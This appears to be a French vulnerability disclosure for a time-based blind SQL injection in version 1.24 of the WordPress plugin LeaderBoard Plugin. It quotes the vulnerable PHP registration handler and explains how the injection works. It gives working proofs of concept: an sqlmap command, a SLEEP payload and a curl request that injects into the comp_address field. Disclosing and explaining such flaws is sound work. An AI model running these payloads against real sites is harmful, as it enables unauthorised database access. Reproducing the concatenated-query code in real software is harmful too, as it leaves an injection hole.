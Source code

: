 ```yaml
---
title: "Faille d'injection SQL dans le plugin Wordpress LeaderBoard Plugin"
tags: [vulnérabilité]
---
```


## Présentation du plugin

Le plugin Wordpress [LeaderBoard Plugin](https://wordpress.org/plugins/leaderboard-lite/) (slug: `leaderboard-lite`) se présente de cette façon :

> LeaderBoard plugin is to enhance a WordPress site to manage events and LeaderBoards; could manage events, divisions,workouts, competitors and scoreboard associated with each events. All the admin forms are powered with Ajax.
  
La version testée est la 1.24 qui date d'il y a 4 ans.

## La vulnérabilité

Dans le script `front-end/eventLeaderBoard-registration.php` on trouve le code suivant qui gère un formulaire d'enregistrement :

```php
<?php if ( ! defined( 'ABSPATH' ) ) exit; ?>                                                                           
<?php get_header(); ?>                                                                                                 
<?php                                                                                                                  
    global $wpdb, $post;                                                                                               
    $options = get_option('LeaderBoardSettings');                                                                      
                                                                                                                       
    date_default_timezone_set("UTC");                                                                                  
    $table1 = $wpdb->prefix . "lbd_event_participants";                                                                
    $table2 = $wpdb->prefix . "lbd_event_scores";                                                                      
    $table3 = $wpdb->prefix . "lbd_event_divisions";                                                                   
    $table4 = $wpdb->prefix . "lbd_event_events";                                                                      
    $table5 = $wpdb->prefix . "lbd_event_competitions";                                                                
    $table6 = $wpdb->prefix . "lbd_event_registeredEvents";                                                            
    $table7 = $wpdb->prefix . "lbd_event_workouts";                                                                    
    $table8 = $wpdb->prefix . "lbd_event_registration_transaction";                                                    
                                                                                                                       
    $my_account = get_option('LeaderBoard_eventMyAccount');                                                            
    $payment_url = get_option('LeaderBoard_Payment');                                                                  
    $LeaderBoard_eventUserRegistration  = get_option('LeaderBoard_eventUserRegistration');                             
?>                                                                                                                     
<section class="commen-wraper compititor-regi-block">                                                                  
    <div class="plugin-container">                                                                                     
    <?php                                                                                                              
    if(isset($_POST['AddCompetitorReg'])=='Submit'){                                                                   
        $competitor_name        = (isset($_POST['comp_fullname']))?sanitize_text_field($_POST['comp_fullname']):"";    
        $competitor_gender  = (isset($_POST['comp_gender']))?sanitize_text_field($_POST['comp_gender']):"";            
        $competitor_dob             = sanitize_text_field($_POST['comp_dob']);                                         
        $competitor_age             = sanitize_text_field($_POST['comp_age']);                                         
        $competitor_email       = sanitize_email($_POST['comp_email']);                                                
        $competitor_address     = stripslashes(sanitize_text_field($_POST['comp_address']));                           
        $competitor_phone       = sanitize_text_field($_POST['comp_phn']);                                             
        $competitor_division    = sanitize_text_field($_POST['comp_div']);                                             
        $competitor_reg_date = date('Y-m-d');                                                                          
        $competitor_reg_fee     = $options['memberFee_individual'];                                                    
        $competitor_payment_status = "pending";                                                                        
        $competitor_status      = 0;                                                                                   
        //login data                                                                                                   
        $competitor_username    = str_replace(" ","",$competitor_name).date('ymd');                                    
        $pass                                   = strtotime("now");                                                    
        $competitor_pass            = md5($pass);                                                                      
                                                                                                                       
        if($competitor_name != '' && $competitor_email !='' && $competitor_phone !=''){                                
            $sql  = 'INSERT INTO '.$table1.' (`id`, `participant_name`,`user_name`,`user_pass`,`gender`, `dob`, `age`,`email`, `address`, `phonenum`, `division`, `registration_date`, `registration_fee`, `payment_status`, `status`) VALUES (NULL, "'.$competitor_name.'","'.$competitor_username.'","'.$competitor_pass.'","'.$competitor_gender.'", "'.$competitor_dob.'", "'.$competitor_age.'", "'.$competitor_email.'", "'.$competitor_address.'", "'.$competitor_phone.'", "'.$competitor_division.'", "'.$competitor_reg_date.'", "'.$competitor_reg_fee.'", "'.$competitor_payment_status.'", "'.$competitor_status.'")';
                                                                                                                       
            dbDelta( $sql );
            --- snip ---
```

La fonction [dbDelta](https://developer.wordpress.org/reference/functions/dbdelta/) provient de Wordpress et permet l'exécution d'une requête SQL.

On remarque que le paramètre `comp_address` est passé comme d'autres à `sanitize_text_field` ainsi qu'à `stripslashes`.

La variable `$competitor_address` ainsi créée est utilisée telle quelle pour la requête SQL INSERT ce qui permet une injection SQL en aveugle.

`sqlmap` détecte bien la vulnérabilité d'injection en aveugle via la technique time-based.

PoC :

```
python sqlmap.py -u "http://localhost:8000/?page_id=9" --data "comp_fullname=default&comp_dob=default&comp_email=nobody%40nowhere.com&comp_phn=default&comp_photo=pix.gif&comp_age=default&accept_conditions=default&AddCompetitorReg=Submit&comp_div=&comp_nation=Zimbabwe&comp_address=&comp_gender=F" -p comp_address --risk 3 --level 5 --technique=T
```

Le payload utilisé par `sqlmap` est de ce type :

```
"="" AND (SELECT 2496 FROM (SELECT(SLEEP(5)))vJYk) AND ""="
```

L'objectif est de placer plusieurs conditions dans la partie de la requête destinée eu champ `address`.

Le `"=""` permet de créer une première condition vraie puis d'enchainer via un `AND` sur une condition que l'on contrôle.

Il faut ensuite rétablie l'équilibre des guillemets, ce que `sqlmap` fait avec le `AND ""="` final.

Un PoC plus simple via cURL pour tester la temporisation :

```
curl "http://localhost:8000/?page_id=9" -e "http://localhost:8000/?page_id=9" -d "comp_fullname=default&comp_dob=default&comp_email=nobody%40nowhere.com&comp_phn=default&comp_photo=pix.gif&comp_age=default&accept_conditions=default&AddCompetitorReg=Submit&comp_div=&comp_nation=Zimbabwe&comp_address=%22%3d%22%22%20AND%20sleep(10)%20AND%20%22%22%3d%22&comp_gender=F"
```
